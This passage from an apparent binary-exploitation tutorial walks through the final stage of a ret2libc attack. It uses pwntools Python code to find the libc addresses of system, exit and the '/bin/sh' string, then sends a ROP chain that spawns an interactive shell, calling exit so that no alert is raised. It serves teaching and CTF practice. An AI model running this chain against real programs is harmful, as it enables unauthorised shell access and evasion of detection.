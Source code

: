 > [!NOTE]
> Note that **final libc base address must end in 00**. If that's not your case you might have leaked an incorrect library.

Then, the address to the function `system` and the **address** to the string _"/bin/sh"_ are going to be **calculated** from the **base address** of **libc** and given the **libc library.**

```python
BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```

Finally, the /bin/sh execution exploit is going to be prepared sent:

```python
rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

p.clean()
p.sendline(rop2)

#### Interact with the shell #####
p.interactive() #Interact with the conenction
```

Let's explain this final ROP.\
The last ROP (`rop1`) ended calling again the main function, then we can **exploit again** the **overflow** (that's why the `OFFSET` is here again). Then, we want to call `POP_RDI` pointing to the **addres** of _"/bin/sh"_ (`BINSH`) and call **system** function (`SYSTEM`) because the address of _"/bin/sh"_ will be passed as a parameter.\
Finally, the **address of exit function** is **called** so the process **exists nicely** and any alert is generated.

**This way the exploit will execute a \_/bin/sh**\_\*\* shell.\*\*

![](<../../../../images/image (165).png>)
